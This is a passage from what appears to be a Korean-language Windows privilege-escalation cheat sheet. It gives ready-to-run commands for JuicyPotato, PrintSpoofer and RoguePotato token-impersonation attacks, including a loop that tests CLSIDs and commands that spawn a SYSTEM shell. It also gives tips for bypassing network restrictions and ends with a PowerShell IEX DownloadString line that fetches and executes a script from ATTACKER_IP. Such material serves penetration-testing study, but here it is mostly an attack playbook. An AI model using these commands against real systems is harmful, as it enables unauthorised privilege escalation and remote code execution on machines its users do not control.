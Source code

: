 ```powershell
# 3. 세션 정보 확인
query session
qwinsta

# 4. 로그온 세션 열거
logonsessions.exe 2>$null

# 5. 현재 토큰의 SID 정보
[System.Security.Principal.WindowsIdentity]::GetCurrent().User.Value
```

### 🔧 CLSID 및 COM 객체 활용

```cmd
:: 1. JuicyPotato용 CLSID 목록 테스트
:: Windows 10 1809 이전 버전용 CLSID들
set clsids="{DCBF6C85-84B9-4F93-B5C4-6E9EAEBF7A4B}" "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"

for %%i in (%clsids%) do (
    echo Testing CLSID: %%i
    JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c echo %%i > C:\Windows\Temp\test.txt" -t * -c %%i
)

:: 2. DCOM 객체 권한 확인
dcomcnfg.exe
:: Component Services -> Computers -> My Computer -> DCOM Config

:: 3. 레지스트리에서 CLSID 확인
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID" | findstr "LocalServer32\|InprocServer32"

:: 4. PowerShell로 COM 객체 테스트
powershell -c "New-Object -ComObject Shell.Application"
powershell -c "New-Object -ComObject WScript.Shell"
```

### 💡 네트워크 제한 환경에서의 우회

```cmd
:: 1. 로컬 포트만 사용하는 공격 (방화벽 우회)
PrintSpoofer.exe -i -c cmd
:: Named Pipe만 사용하므로 네트워크 연결 불필요

:: 2. localhost 릴레이 공격
RoguePotato.exe -r 127.0.0.1 -e "cmd.exe" -l 9999 -s

:: 3. 파일 기반 통신
:: 일부 공격에서 파일 시스템을 통한 통신 사용

:: 4. WMI 이벤트 기반 공격
:: WMI 이벤트를 트리거로 사용하는 고급 기법

:: 5. 메모리 기반 실행 (디스크 쓰기 최소화)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/exploit.ps1')"
```
